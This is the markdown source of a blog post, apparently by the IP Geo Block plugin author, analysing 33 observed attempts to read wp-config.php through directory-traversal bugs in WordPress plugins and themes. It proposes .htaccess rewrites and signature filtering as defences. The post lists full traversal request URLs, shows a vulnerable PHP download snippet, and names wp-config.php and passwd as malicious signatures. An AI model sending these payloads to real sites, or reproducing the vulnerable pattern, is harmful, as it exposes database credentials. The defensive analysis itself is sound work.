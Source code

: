 ```yaml
---
layout: post
title: "Prevent exposure of wp-config.php"
date: 2015-10-24 13:30:00
categories: article
published: true
script: []
inline:
---
```


From July to September in 2015, 33 types of malicious requests to attempt 
exposing the `wp-config.php` via vulnerable plugins and themes had been 
observed on my site. I analyzed all of them to identify if 
[IP Geo Block][IP-Geo-Block] can block them or not.

<!--more-->

Unfortunately, I could not find all the causes of exposure because most of 
them were already removed from the WordPress repository. So I can't say the 
right thing with confidence, but the only 2 of these could be blocked by 
[IP Geo Block 2.1.5 and under][IP-Geo-Block] even if they were from the 
forbidden countries.

In this article, I should clarify how to prevent exposure of `wp-config.php` 
against such malicous requests.

### <span id="sec1">Analysis of Attack Vectors</span> ###

Before showing the results, I should explain about the description of the 
terms same as in [the previous article][Analysis].

{% highlight text %}
Attack Vector = Type x Path
{% endhighlight %}

where:

- **Type**: The type of vulnerability that an attacker can abuse. For example, 
  XSS, SQLI, LFI and so on. Also it includes some certain parameters which 
  are generally called "signature".
- **Path**: The path to the entrance into WordPress where an attacker can 
  deliver the certain type of vulnerability.

The "**Path**" can be categorized into following : 

<table>
  <thead>
    <tr>
      <th>Abbreviation of Path</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><span class="label label-success">WP</span></td>
      <td><strong>W</strong>ord<strong>P</strong>ress</td>
    </tr>
    <tr>
      <td><span class="label label-danger">PD</span></td>
      <td><strong>P</strong>lugin <strong>D</strong>irect</td>
    </tr>
    <tr>
      <td><span class="label label-warning">N/A</span></td>
      <td><strong>N</strong>ot <strong>A</strong>vailable</td>
    </tr>
  </tbody>
</table>

Here's the table of 33 requests that were attempted to expose `wp-config.php` 
in my site. Most of them were disclosed recently.
[IP Geo Block 2.1.5 and under][IP-Geo-Block] can only protect the **Path** of 
<span class="label label-success">WP</span>, while the 
<span class="label label-danger">PD</span> (and probably 
<span class="label label-warning">N/A</span>) can not because those plugins 
and themes never load the WordPress core.

<div class="table-responsive">
  <table class="table">
    <thead>
      <tr>
        <th>Type</th>
        <th>Path</th>
        <th>Disclosed</th>
        <th>Request</th>
      </tr>
    </thead>
    <tbody>
      <tr><!-- 1 -->
        <td><abbr title="Aribtrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-08-10</td><!-- PD/NG -->
        <td><a href="https://www.exploit-db.com/exploits/37751/" title="WordPress WPTF Image Gallery 1.03 - Aribtrary File Download - Exploits Database">/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 2 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-16</td><!-- PD/NG https://github.com/wp-plugins/simple-image-manipulator -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=147" title="Vulnerability">/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 3 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-12</td><!-- PD/NG https://github.com/wp-plugins/candidate-application-form -->
        <td><a href="https://wpvulndb.com/vulnerabilities/8099" title="Candidate Application Form &lt;= 1.0 - Arbitrary File Download">/wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 4 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-09</td><!-- PD/NG https://wordpress.org/plugins/ibs-mappro/developers/ -->
        <td><a href="http://www.securityfocus.com/bid/75698" title="WordPress IBS Mappro Plugin 'download.php' Arbitrary File Download Vulnerability">/wp-content/plugins/ibs-mappro/lib/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 5 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://github.com/wp-plugins/image-export -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=135" title="Vulnerabilit">/wp-content/plugins/image-export/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 6 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://wordpress.org/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/developers/ -->
        <td><a href="https://www.exploit-db.com/exploits/37494/" title="WordPress S3Bubble Cloud Video With Adverts &amp; Analytics 0.7 - Arbitrary File Download - Exploits Database">/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=../../../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 7 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-05</td><!-- OK https://wordpress.org/plugins/wp-ecommerce-shop-styling/developers/ -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=136" title="Vulnerabilit">/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 8 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-02</td><!-- OK https://github.com/wp-plugins/wp-swimteam/commit/3652df6c40d493cebb3e19f414edb0898d636bd5 -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=134" title="Vulnerabilit">/wp-content/plugins/wp-swimteam/include/user/download.php?file=../../../../../wp-config.php&amp;filename=../../../../../wp-config.php&amp;contenttype=text/html&amp;transient=1&amp;abspath=/usr/share/wordpress</a></td>
      </tr>
      <tr><!-- 9 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-06-10</td><!-- PD/NG https://github.com/wp-plugins/history-collection -->
        <td><a href="https://www.exploit-db.com/exploits/37254/" title="WordPress History Collection &lt;= 1.1.1 - Arbitrary File Download - Exploits Database">/wp-content/plugins/history-collection/download.php?var=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 10 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-18</td><!-- N/A NG -->
        <td><a href="https://packetstormsecurity.com/files/131502/WordPress-WP-Mon-Arbitrary-File-Download.html" title="WordPress WP-Mon Arbitrary File Download - Packet Storm">/wp-content/plugins/wp-moN/Assets/download.php?type=octet/stream&amp;path=../../../../&amp;name=wp-config.php</a></td>
      </tr>
      <tr><!-- 11 -->
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-13</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/36733/" title="WordPress Plugin 'WP Mobile Edition' 2.2.7 - Remote File Disclosure Vulnerability - Exploits Database">/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 12 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-03-26</td><!-- PD/NG https://github.com/wp-plugins/aspose-cloud-ebook-generator/commit/1c51e382fed7f3025fbe4469a729fd0aea7a1231 -->
        <td><a href="https://packetstormsecurity.com/files/131040/WordPress-Aspose-Cloud-eBook-Generator-File-Download.html" title="WordPress Aspose Cloud eBook Generator File Download - Packet Storm">/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 13 -->
        <td><abbr title="Local File Disclosure">LFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-02-16</td><!-- N/A -->
        <td><a href="http://milw00rm.org/exploits/7497" title="Wordpress Justified Image Grid 2.0.1 - Multiple (LFD/XSS) Vulnerabilities">/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/wp-config.php</a></td>
      </tr>
      <tr><!-- 14 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/markant/download.php?file=../../wp-config.php</a></td>
      </tr>
      <tr><!-- 15 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/MichaelCanthony/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 16 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/felis/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr><!-- 17 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/SMWF/inc/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr><!-- 18 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/TheLoft/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 19 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/trinity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 20 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/urbancity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 21 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/yakimabait/download.php?file=./wp-config.php</a></td>
      </tr>
      <tr><!-- 22 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-07</td><!-- N/A -->
        <td><a href="https://wpvulndb.com/vulnerabilities/7710" title="ChurcHope Theme Local File Inclusion (LFI)">/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 23 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-06</td><!-- N/A -->
        <td><a href="http://www.homelab.it/index.php/2014/12/06/wordpress-ajax-store-locator-arbitrary-file-download-vulnerability/" title="Wordpress Ajax Store Locator Arbitrary File Download Vulnerability">/wp-content/plugins/ajax-store-locator-wordpress_0/sl_file_download.php?download_file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 24 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-09-09</td><!-- PD/NG https://github.com/wp-plugins/wp-support-plus-responsive-ticket-system/commit/42d48000a489206243beaabfe798d02d411bd330#diff-29 -->
        <td><a href="https://www.exploit-db.com/exploits/34589/" title="WordPress WP Support Plus Responsive Ticket System 2.0 Plugin - Multiple Vulnerabilities - Exploits Database">/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/downloadAttachment.php?path=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 25 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/34578/" title="WordPress Acento Theme view-pdf.php file param - Arbitrary File Download - Exploits Database">/wp-content/themes/acento/includes/view-pdf.php?download=1&amp;file=/path/wp-config.php</a></td>
      </tr>
      <tr><!-- 26 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128188/WordPress-Antioch-Arbitrary-File-Download.html" title="WordPress Antioch Arbitrary File Download - Packet Storm">/wp-content/themes/antioch/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 27 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A -->
        <td><a href="https://cxsecurity.com/issue/WLB-2014090037" title="Wordpress Authentic Theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/authentic/includes/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 28 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A http://www.organizedthemes.com/themes/epic/ -->
        <td><a href="http://cxsecurity.com/issue/WLB-2014090036" title="Wordpress epic theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/epic/includes/download.php?file=wp-config.php</a></td>
      </tr>
      <tr><!-- 29 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-03</td><!-- N/A NG -->
        <td><a href="https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html" title="Slider Revolution Plugin Critical Vulnerability Being Exploited - Sucuri Blog">/wp-admiN/Admin-ajax.php?action=revslider_show_image&amp;img=../wp-config.php</a></td>
      </tr>
      <tr><!-- 30 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-04-14</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/32861/" title="WordPress Theme LineNity 1.20 - Local File Inclusion - Exploits Database">/wp-content/themes/linenity/functions/download.php?imgurl=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 31 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-08-31</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128101/WordPress-NativeChurch-lote27-FR0_theme-acento-File-Download.html" title="WordPress NativeChurch / lote27 / FR0_theme / acento File Download - Packet Storm">/wp-content/themes/lote27/download.php?download=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 32 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-08-01</td><!-- https://github.com/wp-plugins/contus-video-gallery/releases -->
        <td><a href="https://wpvulndb.com/plugins/contus-video-gallery" title="WordPress Plugin: contus-video-gallery">/wp-content/plugins/contus-video-gallery/hdflvplayer/download.php?f=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 33 -->
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2011-09-19</td><!-- N/A http://plugins.svn.wordpress.org/filedownload/ -->
        <td><a href="https://www.exploit-db.com/exploits/17858/" title="WordPress Filedownload Plugin 0.1 - download.php Remote File Disclosure Vulnerability - Exploits Database">/wp-content/plugins/filedownload/download.php?path=../../../wp-config.php&amp;type=aplication/pdf</a></td>
      </tr>
    </tbody>
  </table>
</div>

### <span id="sec2">What's the cause?</span> ###

As you can see, most of them had their own download function like 
`download.php`. Typical OMG <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
</span> code in there are like following :

{% highlight php %}
<?php
$file = $_GET['file'];
if (file_exists('../../uploads/xxxx/'.$file)) {
    readfile('../../uploads/xxxx/'.$file);
    exit();
}
?>
{% endhighlight %}

This kind of vulnerability is caused by [Directory Traversal][OWASP] attack.

### <span id="sec3">How to protect my site against such OMG code?</span> ###

First and foremost, we should consider to make the **Path** transformed from 
<span class="label label-danger">PD</span> and 
<span class="label label-warning">N/A</span> to
<span class="label label-success">WP</span>. If those plugins and themes would 
load WordPres core before they were excuted, [IP Geo Block][IP-Geo-Block] can 
have a chance to block the attacks.

So we should force those plugins and themes to load the `wp-load.php`. To 
achieve this, we can configure our `.htaccess` in the plugins directory to 
rewrite the request using following directives :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteCond %{REQUEST_URI} !ip-geo-block/rewrite.php$
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

The absolute path of `/wp-content/plugins/` should be changed according to 
your site configuration. And here's the example in themes directory :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

Those will redirect a request, which is pointed to 
`/wp-content/plugins/.../*.php` or to 
`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in 
[IP Geo Block][IP-Geo-Block] in order to load `wp-load.php` and then it will 
be validated by country code or WP-ZEP <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f4aa.png)
</span>.

Another consideration for **Type** in **Attack Vector** is that 
[IP Geo Block][IP-Geo-Block] should filter out the "**Malicious signature**" 
such as `wp-config.php` or `passwd` to defence against attacks from the 
permitted countries.

I'll provide you this functionarity in the next release (may be 2.2.0) !! 
<span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f63c.png)
</span>

[IP-Geo-Block]: https://wordpress.org/plugins/ip-geo-block/ "WordPress › IP Geo Block « WordPress Plugins"
[Analysis]:     {{ "/article/analysis-attack-vector.html" | prepend: site.baseurl }} "Analysis of Attack Vector against WP Plugins"
[OWASP]:        https://www.owasp.org/index.php/Path_Traversal "Path Traversal - OWASP"
[WritePHP]:     https://github.com/tokkonopapa/WordPress-IP-Geo-Block/blob/master/ip-geo-block/rewrite.php "WordPress-IP-Geo-Block/rewrite.php at master - tokkonopapa/WordPress-IP-Geo-Block"
